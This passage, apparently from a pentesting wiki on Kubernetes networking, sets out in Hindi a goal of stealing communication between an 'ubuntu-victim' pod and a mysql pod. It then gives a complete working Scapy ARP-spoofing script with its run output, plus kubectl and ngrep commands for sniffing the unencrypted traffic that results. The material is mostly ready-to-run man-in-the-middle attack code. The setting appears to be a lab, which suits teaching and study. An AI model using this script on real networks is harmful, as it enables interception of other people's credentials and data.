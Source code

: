 हमारा लक्ष्य है कि **कम से कम ubuntu-victim से mysql तक की संचार चोरी करें**।

### Scapy
```bash
python3 /tmp/arp_spoof.py
Enter Target IP:172.17.0.10 #ubuntu-victim
Enter Gateway IP:172.17.0.9 #mysql
Target MAC 02:42:ac:11:00:0a
Gateway MAC: 02:42:ac:11:00:09
Sending spoofed ARP responses

# Get another shell
kubectl exec -it ubuntu-attack -- bash
ngrep -d eth0

# Login from ubuntu-victim and mysql and check the unencrypted communication
# interacting with the mysql instance
```
{% code title="arp_spoof.py" %}
```python
#From https://gist.github.com/rbn15/bc054f9a84489dbdfc35d333e3d63c87#file-arpspoofer-py
from scapy.all import *

def getmac(targetip):
arppacket= Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=targetip)
targetmac= srp(arppacket, timeout=2 , verbose= False)[0][0][1].hwsrc
return targetmac

def spoofarpcache(targetip, targetmac, sourceip):
spoofed= ARP(op=2 , pdst=targetip, psrc=sourceip, hwdst= targetmac)
send(spoofed, verbose= False)

def restorearp(targetip, targetmac, sourceip, sourcemac):
packet= ARP(op=2 , hwsrc=sourcemac , psrc= sourceip, hwdst= targetmac , pdst= targetip)
send(packet, verbose=False)
print("ARP Table restored to normal for", targetip)

def main():
targetip= input("Enter Target IP:")
gatewayip= input("Enter Gateway IP:")

try:
targetmac= getmac(targetip)
print("Target MAC", targetmac)
except:
print("Target machine did not respond to ARP broadcast")
quit()

try:
gatewaymac= getmac(gatewayip)
print("Gateway MAC:", gatewaymac)
except:
print("Gateway is unreachable")
quit()
try:
print("Sending spoofed ARP responses")
while True:
spoofarpcache(targetip, targetmac, gatewayip)
spoofarpcache(gatewayip, gatewaymac, targetip)
except KeyboardInterrupt:
print("ARP spoofing stopped")
restorearp(gatewayip, gatewaymac, targetip, targetmac)
restorearp(targetip, targetmac, gatewayip, gatewaymac)
quit()
```